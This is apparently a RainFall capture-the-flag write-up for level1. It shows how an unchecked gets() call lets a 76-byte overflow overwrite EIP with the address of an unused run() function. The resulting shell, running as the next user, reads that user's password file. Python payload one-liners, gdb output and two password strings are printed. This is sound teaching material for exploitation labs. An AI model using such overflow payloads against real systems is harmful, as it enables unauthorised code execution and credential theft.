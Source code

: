 # **Level1**

## **Analysis**

**In `main()` :**

Just a `gets`

We also have a `run()` function defined but never used
```
(gdb) info function
...
0x08048444  run
0x08048480  main
...
```

**In `run()` :**

Open a shell with `level2` access

___

## **Exploit**

We need to access `run()` by overwritting `eip` using the unprotected `gets` and overflowing the buffer

Getting eip offset using `offset.py`, which is `76`
```
 ❯ python3 offset.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

(gdb) r
Starting program: /home/user/level1/level1
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x54545454 in ?? ()

 ❯ python3 offset.py 54
76
```

Now, we can just replace `eip` with `run()` adress
```
level1@RainFall:~$ python -c 'print "\x90" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Let's keep stdin open
```
level1@RainFall:~$ python -c 'print "\x90" * 76 + "\x44\x84\x04\x08"' > /tmp/level1 && cat /tmp/level1 - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

___

*Password: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a*